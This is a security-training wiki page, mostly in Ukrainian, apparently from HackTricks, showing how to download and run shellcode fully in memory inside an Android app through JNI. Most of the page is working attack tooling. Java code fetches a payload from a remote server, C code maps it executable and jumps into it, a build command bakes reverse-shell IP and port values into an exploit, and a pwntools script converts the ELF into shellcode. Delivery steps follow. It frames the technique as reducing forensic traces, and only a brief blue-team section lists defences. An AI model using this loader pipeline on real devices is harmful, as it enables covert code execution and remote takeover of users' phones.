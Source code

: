 # Android In-Memory Native Code Execution via JNI (shellcode)

{{#include ../../banners/hacktricks-training.md}}

На цій сторінці задокументовано практичний шаблон виконання native payloads повністю в пам'яті з процесу ненадійного Android-додатку з використанням JNI. Процес уникає створення будь-якого native бінарного файлу на диску: завантажити raw shellcode bytes через HTTP(S), передати їх у JNI-міст, виділити RX-пам'ять і перейти в неї.

Чому це важливо
- Зменшує судово-експертні артефакти (немає ELF на диску)
- Сумісно з “stage-2” native payloads, згенерованими з ELF exploit binary
- Відповідає tradecraft, який використовують сучасні malware та red teams

Загальна схема
1) Отримати shellcode bytes у Java/Kotlin
2) Викликати native method (JNI) з масивом байтів
3) У JNI: виділити RW-пам'ять → скопіювати байти → mprotect до RX → викликати entrypoint

Мінімальний приклад

Java/Kotlin side
```java
public final class NativeExec {
static { System.loadLibrary("nativeexec"); }
public static native int run(byte[] sc);
}

// Download and execute (simplified)
byte[] sc = new java.net.URL("https://your-server/sc").openStream().readAllBytes();
int rc = NativeExec.run(sc);
```
C JNI-сторона (arm64/amd64)
```c
#include <jni.h>
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>

static inline void flush_icache(void *p, size_t len) {
__builtin___clear_cache((char*)p, (char*)p + len);
}

JNIEXPORT jint JNICALL
Java_com_example_NativeExec_run(JNIEnv *env, jclass cls, jbyteArray sc) {
jsize len = (*env)->GetArrayLength(env, sc);
if (len <= 0) return -1;

// RW anonymous buffer
void *buf = mmap(NULL, len, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
if (buf == MAP_FAILED) return -2;

jboolean isCopy = 0;
jbyte *bytes = (*env)->GetByteArrayElements(env, sc, &isCopy);
if (!bytes) { munmap(buf, len); return -3; }

memcpy(buf, bytes, len);
(*env)->ReleaseByteArrayElements(env, sc, bytes, JNI_ABORT);

// Make RX and execute
if (mprotect(buf, len, PROT_READ | PROT_EXEC) != 0) { munmap(buf, len); return -4; }
flush_icache(buf, len);

int (*entry)(void) = (int (*)(void))buf;
int ret = entry();

// Optional: restore RW and wipe
mprotect(buf, len, PROT_READ | PROT_WRITE);
memset(buf, 0, len);
munmap(buf, len);
return ret;
}
```
Зауваження та застереження
- W^X/execmem: Сучасний Android застосовує W^X; анонімні відображення з PROT_EXEC зазвичай все ще дозволені для процесів додатків з JIT (за умовою політики SELinux). Деякі пристрої/ROMs обмежують це; у таких випадках повертайтеся до JIT-виділених exec-пулів або native bridges.
- Архітектури: Переконайтесь, що архітектура shellcode відповідає пристрою (зазвичай arm64-v8a; x86 — лише на емуляторах).
- Контракт точки входу: Визначте конвенцію для входу shellcode (без аргументів або вказівник на структуру). Зробіть його позиційно-незалежним (PIC).
- Стабільність: Очистіть кеш інструкцій перед переходом; невідповідний кеш може спричинити крах на ARM.

Packaging ELF → position‑independent shellcode
Надійний пайплайн оператора виглядає так:
- Збирайте ваш exploit як статичний ELF за допомогою musl-gcc
- Перетворіть ELF у самозавантажувальний shellcode blob за допомогою pwntools’ shellcraft.loader_append

Збірка
```bash
musl-gcc -O3 -s -static -fno-pic -o exploit exploit.c \
-DREV_SHELL_IP="\"10.10.14.2\"" -DREV_SHELL_PORT="\"4444\""
```
Перетворення ELF у raw shellcode (приклад amd64)
```python
# exp2sc.py
from pwn import *
context.clear(arch='amd64')
elf = ELF('./exploit')
loader = shellcraft.loader_append(elf.data, arch='amd64')
sc = asm(loader)
open('sc','wb').write(sc)
print(f"ELF size={len(elf.data)}, shellcode size={len(sc)}")
```
Чому loader_append працює: він емісує невеликий loader, який відображає вкладені ELF program segments у пам'яті та передає керування до його entrypoint, даючи один сирий blob, який можна memcpy’ити та виконати в app.

Delivery
- Розмістіть sc на HTTP(S)-сервері під вашим контролем
- Підмінений/тестовий app завантажує sc і викликає показаний вище JNI bridge
- Слухайте на машині оператора будь-які reverse-підключення, які встановлює kernel/user-mode payload

Validation workflow for kernel payloads
- Використовуйте vmlinux зі символами для швидшого реверсингу/відновлення офсетів
- Прототипуйте примітиви на зручному debug image, якщо він доступний, але завжди ретельно перевіряйте на реальній Android-цілі (kallsyms, KASLR slide, page-table layout, and mitigations differ)

Hardening/Detection (blue team)
- Забороніть anonymous PROT_EXEC у доменах app там, де це можливо (SELinux policy)
- Забезпечте сувору цілісність коду (no dynamic native loading from network) та перевіряйте канали оновлення
- Моніторте підозрілі переходи mmap/mprotect до RX та великі копіювання byte-array перед виконуваними переходами

References
- [CoRPhone challenge repo (Android kernel pwn; JNI memory-only loader pattern)](https://github.com/0xdevil/corphone)
- [build.sh (musl-gcc + pwntools pipeline)](https://raw.githubusercontent.com/0xdevil/corphone/main/exploit/build.sh)
- [exp2sc.py (pwntools shellcraft.loader_append)](https://raw.githubusercontent.com/0xdevil/corphone/main/exploit/exp2sc.py)
- [exploit.c TL;DR (operator/kernel flow, offsets, reverse shell)](https://raw.githubusercontent.com/0xdevil/corphone/main/exploit/exploit.c)
- [INSTRUCTIONS.md (setup notes)](https://github.com/0xdevil/corphone/blob/main/INSTRUCTIONS.md)

{{#include ../../banners/hacktricks-training.md}}
